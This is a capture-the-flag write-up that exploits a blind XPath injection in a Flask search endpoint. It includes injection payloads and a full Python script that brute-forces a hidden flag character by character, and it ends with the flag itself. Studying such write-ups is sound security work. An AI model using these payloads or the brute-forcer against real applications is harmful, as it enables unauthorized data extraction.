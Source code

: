 # Solution 

The challenge provides an xml files with the structure of the xml tree. It will be useful to solve the challenge.
    
## Tweaking the input
    
We can crash the app and trigger the debugger using the value `'` for the *search* variable.  

We get an XPathEval error and the following snippet is returned in the debugger response
```html
<pre class="line before"><span class="ws"></span>@app.route(&quot;/api/search&quot;, methods=[&quot;POST&quot;])</pre>
<pre class="line before"><span class="ws"></span>def search():</pre>
<pre class="line current"><span class="ws">    </span>name = request.json.get(&quot;search&quot;, &quot;&quot;)</pre>
<pre class="line after"><span class="ws">    </span>query = &quot;/military/district/staff[name='{}']&quot;.format(name)</pre>
<pre class="line after"><span class="ws"></span> </pre>
<pre class="line after"><span class="ws">    </span>if tree.xpath(query):</pre>
<pre class="line after"><span class="ws">        </span>return {&quot;success&quot;: 1, &quot;message&quot;: &quot;This millitary staff member exists.&quot;}</pre>
<pre class="line after"><span class="ws"></span> </pre></div>
```

We can focus on the text and make it more readable

```python
@app.route("/api/search", methods=["POST"])
def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name='{}']".format(name)
    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}
    return {"failure": 1, "message": "This millitary staff member doesn't exist."}
```

## Blind XPath injection

### Detect vulnerability

As we can see no input is sanitized nor escaped.  
The output of the search is boolean.  

The flag is in the **selfDestructCode** tags and not all members have it.  
(In the leaderboard we have a couple of names we can try.)

We actually have injection. The following query returns that the member exist:
```
ll'] or /military/district/staff[name='Straorg
```
    
We now have to find a way to extract all the flag snippets.  
    
    
Seems that the player **Straorg** doesn't have the **selfDestructCode** because the following query return false
- `Straorg'][selfDestructCode] or /military/district/not[not='not`. The member after the `or` is just used to create a working xpath query.
With the same approach we confirm that none of the players in the leaderboard has the tag we're looking for.

### Exploit blind injection
We can write our own bruteforcer to leak the flag one byte at a time.
    
`ciao'] or /military/district/staff[selfDestructCode] or /military/district/not[not='not`. It returns true, meaning that there are members with the selfDestructCode set (as expected). Finding the name of these members is not actually needed.  
We can bruteforce the content of the first **selfDestructCode** occurrence and get part of the flag. Then repeat for the 2nd occurrence and so on.  

```python
import requests                                                              


TARGET_URL = 'http://138.68.178.56:30205'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$%&()+,-./:;<=>?@[\]^_`{|}~"

FLAG = ""


def try_guess(c,occurrence):
    query = "ciao'] or starts-with((/military/district/staff/selfDestructCode)[{}],'{}') or /military/district/not[not='not".format(occurrence,c)
    r = requests.post(TARGET_URL+'/api/search', json = {
        "search": query,
    })
    return "success" in r.text


for i in range(1,4):
    print('Bruteforcing selfDestructCode ',i)
    temp=""
    while True:
        found = False
        for c in ALPH:
            a = try_guess(temp+c,i)
            if a:
                FLAG += c
                temp += c
                found = True
                print(f"Flag so far: {FLAG}")
        if not found:
            break
```
Some notes:
- We guess one character at a time.  
- The `i` variable represent the current *selfdestructCode* to bruteforce.  
- The bruteforce component of the query is `starts-with((/military/district/staff/selfDestructCode)[{}],'{}')`, the other 2 remaining expressions always return False and are only used to allow the injection of our malicious code. 
- Damn `$` sign! It was not in the initial alphabet. It took a while to figure it out.



Flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`


